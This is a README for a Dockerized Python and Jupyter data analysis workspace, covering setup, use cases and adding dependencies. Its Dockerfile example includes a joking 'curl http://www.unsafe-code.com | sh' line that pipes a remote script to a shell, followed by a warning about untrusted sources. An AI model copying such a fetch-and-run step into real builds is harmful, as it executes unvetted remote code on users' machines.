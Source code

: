 # Data Analysis Workspace

Get started on any new project without any hassle setting up your environment. Leveraging the power of Docker, this workspace allows you to focus more on coding and less on configuring your setup. Here's why I use Docker to run my projects:

- **Consistent Environments**: Maintain the same version across different computers, fostering collaborative and seamless working.
- **Dependency Management**: Ease of tracking and installing dependencies, encapsulated within the Docker setup.
- **Security**: Create isolated environments, protecting your system from potential vulnerabilities.

## Features
- Dockerized Python analytics workspace with Jupyter Notebooks.
- Easily manage and install new packages through a simple configuration.
- An organized folder structure to manage your notebooks, data and custom libraries.

## Prerequisites
Before diving in, it's beneficial to have a basic understanding of:
- Python programming.
- Fundamental data science concepts.
- Docker and containerization (though not mandatory, as you'll get the hang of it as you use the workspace).

## Getting Started
To get started with the Data Analysis Workspace, follow these steps:
1. **Install Docker**: Visit [Docker's official website](https://docs.docker.com/get-docker/) to install Docker on your system.
2. **Fork the Repository**: Click [here](https://github.com/FlexDW/data-analysis-workspace/fork) to fork the repository. Forking allows you to have your copy where you can maintain your notebook source code on GitHub.
3. **Run the Workspace**: Execute the command `docker compose up` from the project's root folder. Note that the initial setup might take some time as it sets up Python and necessary packages.
4. **Access Jupyter Notebooks**: Once the setup completes, find a link in the logs resembling: `http://127.0.0.1:8888/?token=ONE_TIME_TOKEN`. Click on this link to access your Jupyter Notebook environment.

## Use Cases
This workspace is versatile, facilitating various data science tasks such as:
- Data exploration and visualization.
- Machine learning model development and testing.
- Collaborative data science research and projects.
- General Python script development.

## Adding Packages
In order to enhance your workspace, you can easily add Python packages and other dependencies:

### Python Packages
To add Python packages, add them to the `requirements.txt` file, following the standard notation:

```plaintext
package-name==1.1.2
another-package
```

### Other Dependencies
For additional dependencies, introduce RUN commands in the Dockerfile. Here is an example where abc and xyz packages are being installed


```Dockerfile
RUN apt-get install abc, xyz
RUN curl http://www.unsafe-code.com | sh 
```

**Note:** In all seriousness, be careful installing via curl from untrusted sources, even on a dockerized setup. 

After making changes, rebuild the setup using the commands:

```
docker compose build
docker compose up
```

## Feedback and Contributions
Let me know how you like the setup, all feedback welcome. Feel free to raise issues or submit pull requests. 
